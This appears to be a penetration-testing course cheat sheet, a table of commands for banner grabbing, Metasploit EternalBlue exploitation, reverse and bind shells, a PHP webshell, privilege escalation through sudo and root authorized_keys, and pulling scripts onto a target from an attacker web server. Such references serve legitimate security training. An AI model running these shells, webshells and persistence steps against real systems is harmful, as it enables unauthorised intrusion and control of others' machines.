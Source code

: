 | `curl -IL https://www.inlanefreight.com`                                              | Grab website banner                                                   |
| `whatweb 10.10.10.121`                                                                | List details about the webserver/certificates                         |
| `curl 10.10.10.121/robots.txt`                                                        | List potential directories in `robots.txt`                            |
| `ctrl+U`                                                                              | View page source (in Firefox)                                         |
| **Public Exploits**                                                                   |                                                                       |
| `searchsploit openssh 7.2`                                                            | Search for public exploits for a web application                      |
| `msfconsole`                                                                          | MSF: Start the Metasploit Framework                                   |
| `search exploit eternalblue`                                                          | MSF: Search for public exploits in MSF                                |
| `use exploit/windows/smb/ms17_010_psexec`                                             | MSF: Start using an MSF module                                        |
| `show options`                                                                        | MSF: Show required options for an MSF module                          |
| `set RHOSTS 10.10.10.40`                                                              | MSF: Set a value for an MSF module option                             |
| `check`                                                                               | MSF: Test if the target server is vulnerable                          |
| `exploit`                                                                             | MSF: Run the exploit on the target server is vulnerable               |
| **Using Shells**                                                                      |                                                                       |
| `nc -lvnp 1234`                                                                       | Start a `nc` listener on a local port                                 |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                 | Send a reverse shell from the remote server                           |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\\|/bin/sh -i 2>&1\\|nc 10.10.10.10 1234 >/tmp/f`  | Another command to send a reverse shell from the remote server        |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\\|/bin/bash -i 2>&1\\|nc -lvp 1234 >/tmp/f`       | Start a bind shell on the remote server                               |
| `nc 10.10.10.1 1234`                                                                  | Connect to a bind shell started on the remote server                  |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                      | Upgrade shell TTY (1)                                                 |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                           | Upgrade shell TTY (2)                                                 |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                     | Create a webshell php file                                            |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                         | Execute a command on an uploaded webshell                             |
| **Privilege Escalation**                                                              |                                                                       |
| `./linpeas.sh`                                                                        | Run `linpeas` script to enumerate remote server                       |
| `sudo -l`                                                                             | List available `sudo` privileges                                      |
| `sudo -u user /bin/echo Hello World!`                                                 | Run a command with `sudo`                                             |
| `sudo su -`                                                                           | Switch to root user (if we have access to `sudo su`)                  |
| `sudo su user -`                                                                      | Switch to a user (if we have access to `sudo su`)                     |
| `ssh-keygen -f key`                                                                   | Create a new SSH key                                                  |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`          | Add the generated public key to the user                              |
| `ssh root@10.10.10.10 -i key`                                                         | SSH to the server with the generated private key                      |
| **Transferring Files**                                                                |                                                                       |
| `python3 -m http.server 8000`                                                         | Start a local webserver                                               |
| `wget http://10.10.14.1:8000/linpeas.sh`                                              | Download a file on the remote server from our local machine           |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`                                | Download a file on the remote server from our local machine           |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`                                      | Transfer a file to the remote server with `scp` (requires SSH access) |